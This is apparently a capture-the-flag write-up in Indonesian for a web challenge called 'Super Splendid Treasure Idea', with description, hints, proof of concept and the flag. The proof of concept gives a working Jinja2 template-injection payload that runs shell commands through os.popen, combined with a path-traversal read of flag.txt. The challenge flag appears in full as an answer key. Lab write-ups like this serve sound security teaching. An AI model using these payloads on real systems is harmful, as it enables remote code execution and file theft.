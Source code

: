 ## Super Splendid Treasure Idea

## Deskripsi

Rasanya tadi aku lihat flagnya di sini, tapi sekarang... hilang entah ke mana 😭. Apa ada yang mindahkannya? Mungkin aku harus mencoba menelusuri lebih dalam di website ini dan melihat apakah aku bisa menemukannya kembali.

Mungkin saja ada di balik beberapa file yang tersembunyi 🕵️‍♂️

## HINT
- Sepertinya judulnya menarik 🤔
- Deskripsinya juga menarik nih

## POC
- Masukin payload SSTI buat baca file atau os command
  {{"".join(cycler.__init__.__globals__.os.popen('cat flag.txt'))}}
- Lakuin sedikit LFI buat nemuin lokasi flagnya, yaitu ../../../../../../flag.txt
- Final payload -> {{"".join(cycler.__init__.__globals__.os.popen('cat ../../../../../../flag.txt')) }}

## Flag
CODEX2K24{H0H0H0_SSTI_w1th_s0me_LFI_ch4llenge_pr3tty_e4sy_r1ght}
